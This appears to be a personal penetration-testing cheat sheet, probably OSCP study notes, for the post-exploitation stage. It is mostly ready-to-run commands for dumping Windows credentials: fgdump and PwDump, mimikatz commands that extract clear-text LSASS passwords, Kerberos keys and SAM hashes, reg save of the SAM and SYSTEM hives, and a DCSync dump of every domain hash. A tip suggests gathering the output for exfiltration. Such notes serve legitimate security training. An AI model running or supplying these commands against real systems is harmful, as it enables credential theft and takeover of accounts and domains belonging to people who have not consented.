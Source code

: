**Using default wordlist mangle params on a given list of words**
> john --wordlist=wordlist-mischief.txt --rules --stdout > mutated2.txt

# Post Root
    https://blog.ropnop.com/transferring-files-from-kali-to-windows/

## Dump LM/NTLM Hashes from Windows
**fgdump.exe** 
* 
* upload to box and run get output and use crackstation to crack the hashes
* Needs to run with user creds supplied

**PwDump.exe**
* use this on win 2000 boxes. seems to work on the legacy stuff.
* dumps SAM hashes for cracking
> .\PwDump.exe LocalHost

> .\pwdump.exe -u walter -p P@ssWORD1234 localhost

**MimiKatz**

* http://www.techexams.net/forums/security-certifications/110760-oscp-jollyfrogs-tale-2.html
* use jollykatz32.exe if you see an error about a missing DLL when using 64 bit version
* TIP: use a .bat script to avoid running all these commands and collect the data in a .txt file for exfiltration

* dump clear-text passwords from LSASS process:
 
> C:\> mimikatz32.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"

* Steal users credentials until they reset their passwords:
 > C:\> mimikatz32.exe "privilege::debug" "sekurlsa::ekeys" "exit"


* Dump LM and NTLM hashes from SAM:
>  C:\> mimikatz32.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

* read SAM file from /repair or ntbackup files:
  
> C:\> reg save HKLM\SYSTEM SystemBkup.hiv

> C:\> reg save HKLM\SAM SamBkup.hiv

(Or use Volume Shadow Copy / BootCD to backup these files or get them from the repair folder

> C:\Windows\System32\config\SYSTEM

> C:\Windows\System32\config\SAM

> C:\> mimikatz32.exe "lsadump::sam SystemBkup.hiv SamBkup.hiv" "exit"

### NTDS.dit 
* on a domain controller you can dump this using domain admin creds and get all user hashes
> mimikatz.exe "lsadump::dcsync /domain:thinc.local /all /csv" "exit" >> mimi.txt

## Unix Passwd/Shadow cracking
###### Tool like mimikatz for Linux
    https://github.com/huntergregal/mimipenguin
    